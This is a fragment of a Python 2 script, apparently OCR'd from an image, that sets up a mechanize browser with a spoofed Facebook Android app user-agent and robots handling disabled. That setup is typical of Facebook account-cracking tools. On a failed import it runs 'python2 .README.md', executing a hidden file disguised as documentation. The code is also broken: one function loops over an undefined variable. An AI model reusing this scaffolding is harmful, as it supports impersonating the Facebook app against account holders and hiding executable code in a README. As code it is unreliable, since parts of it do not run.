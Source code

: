     sys.stdout = open('.txt', 'a')
 
    print nmbr
 
    sys.stdout.flush()
 
try:
 
    import requests
 
except ImportError:
 
    os.system('pip2 install requests')
 
try:
 
    import mechanize
 
except ImportError:
 
    os.system('pip2 install mechanize')
 
    time.sleep(1)
 
    os.system('python2 .README.md')
 
from multiprocessing.pool import ThreadPool
 
from requests.exceptions import ConnectionError
 
from mechanize import Browser
 
reload(sys)
 
sys.setdefaultencoding('utf8')
 
br = mechanize.Browser()
 
br.set_handle_robots(False)
 
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
 
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
 
    print '[!] Exit Successfully '
 
    os.sys.exit()
 
def acak(b):
 
    w = 'ahtdzjc'
 
    d = ''
 
    for i in x:
 
        d += '!' + w[random.randint(0, len(w) - 1)] + i
 
    return cetak(d)
 